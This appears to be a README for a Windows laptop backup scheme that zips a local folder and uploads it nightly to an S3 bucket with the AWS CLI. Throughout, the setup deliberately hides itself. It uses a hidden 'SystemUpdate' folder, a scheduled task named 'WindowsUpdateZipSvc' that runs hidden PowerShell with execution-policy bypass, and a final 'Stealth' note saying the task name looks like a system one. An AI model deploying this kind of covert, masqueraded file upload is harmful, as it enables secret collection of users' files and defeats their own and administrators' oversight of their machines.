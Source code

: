 # Maksiti Backups — README

## 1) AWS (once)
- Create IAM user: **`backup-user`** (programmatic access only).
- Attach policy granting access **only** to bucket **`arbrim-backups-test`** (ListBucket, Put/Get/DeleteObject).
- Save the access key CSV.

> (Optional) As an admin, add an S3 **Lifecycle rule** to expire `zips/` after 7 days (CLI step below).

---

## 2) Windows setup (per laptop)

### 2.1 Install & configure AWS CLI
Download and install:  
`https://awscli.amazonaws.com/AWSCLIV2.msi`

Verify:
```powershell
aws --version
```

Configure:
```powershell
aws configure
```
Use:
```
Access Key ID: <from backup-user CSV>
Secret Access Key: <from backup-user CSV>
Default region: eu-central-1
Output format: json
```

### 2.2 Create hidden script folder (user-writable; no admin needed)
```powershell
New-Item -ItemType Directory -Path "C:\Users\<USER>\AppData\Local\SystemUpdate" -Force | Out-Null
attrib +h "C:\Users\<USER>\AppData\Local\SystemUpdate"
```

### 2.3 Pick backup source and S3 layout
```
Local folder to back up (edit per machine):
C:\Users\<USER>\Desktop\maksitest

S3 bucket:
arbrim-backups-test

Zips stored under (auto by script):
s3://arbrim-backups-test/zips/<COMPUTER>/
```

### 2.4 Save the PowerShell script
Path:
```
C:\Users\<USER>\AppData\Local\SystemUpdate\WinZipBackup.ps1
```

Content:
```powershell
# --- EDIT THESE TWO PER MACHINE ---
$SrcPath = "C:\Users\<USER>\Desktop\maksitest"   # Folder to back up
$Bucket  = "arbrim-backups-test"                     # S3 bucket
# ----------------------------------

$Computer  = $env:COMPUTERNAME
$UserName  = $env:USERNAME
$Stamp     = (Get-Date).ToString("yyyy-MM-dd_HH-mm")
$Prefix    = "zips/$Computer"
$ZipName   = "${Computer}-${UserName}_${Stamp}.zip"
$TempZip   = Join-Path $env:TEMP $ZipName

if (-not (Test-Path $SrcPath)) { exit 0 }

try {
    if (Test-Path $TempZip) { Remove-Item $TempZip -Force -ErrorAction SilentlyContinue }
    Compress-Archive -Path $SrcPath -DestinationPath $TempZip -CompressionLevel Optimal -Force
} catch { exit 0 }

$S3Key = "$Prefix/$ZipName"
$null = aws s3 cp "$TempZip" "s3://$Bucket/$S3Key" --sse AES256 2>$null
Remove-Item $TempZip -Force -ErrorAction SilentlyContinue

# Optional local retention (skip if using S3 lifecycle):
try {
    $cutoff = (Get-Date).AddDays(-7)
    $list = aws s3api list-objects-v2 --bucket $Bucket --prefix $Prefix/ | ConvertFrom-Json
    foreach ($obj in ($list.Contents | Where-Object { $_.LastModified -lt $cutoff })) {
        $null = aws s3api delete-object --bucket $Bucket --key $obj.Key 2>$null
    }
} catch { }
```

### 2.5 Schedule it (silent nightly run)
```powershell
schtasks /Create /TN "WindowsUpdateZipSvc" ^
  /TR "powershell.exe -NoLogo -NonInteractive -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Users\<USER>\AppData\Local\SystemUpdate\WinZipBackup.ps1" ^
  /SC DAILY /ST 03:00 /RL HIGHEST /F
```

Then in Task Scheduler → Properties → **Run whether user is logged on or not** (enter your Windows password once).  
To test now: right-click the task → **Run**.

---

## 3) S3 lifecycle (keep 7 days) — optional but recommended

Save JSON:
```
C:\Users\<USER>\AppData\Local\SystemUpdate\lifecycle.json
```
```json
{
  "Rules": [
    {
      "ID": "ExpireZipBackupsAfter7Days",
      "Status": "Enabled",
      "Filter": { "Prefix": "zips/" },
      "Expiration": { "Days": 7 }
    }
  ]
}
```

Apply (run as an admin/owner who has lifecycle permissions):
```powershell
aws s3api put-bucket-lifecycle-configuration `
  --bucket arbrim-backups-test `
  --lifecycle-configuration file://C:\Users\<USER>\AppData\Local\SystemUpdate\lifecycle.json `
  --region eu-central-1
```

Verify:
```powershell
aws s3api get-bucket-lifecycle-configuration --bucket arbrim-backups-test --region eu-central-1
```

---

## 4) Restore & notes

**Restore:** download the desired zip from  
`s3://arbrim-backups-test/zips/<COMPUTER>/<COMPUTER>-<USER>_YYYY-MM-DD_HH-mm.zip`  
and unzip.

**Scale to more laptops:** copy `WinZipBackup.ps1`, edit only `$SrcPath`, run the same `schtasks` command (path includes the user’s profile). Lifecycle rule applies to all machines automatically.

**Stealth:** script runs with hidden PowerShell; folder is hidden; task name looks system-ish.
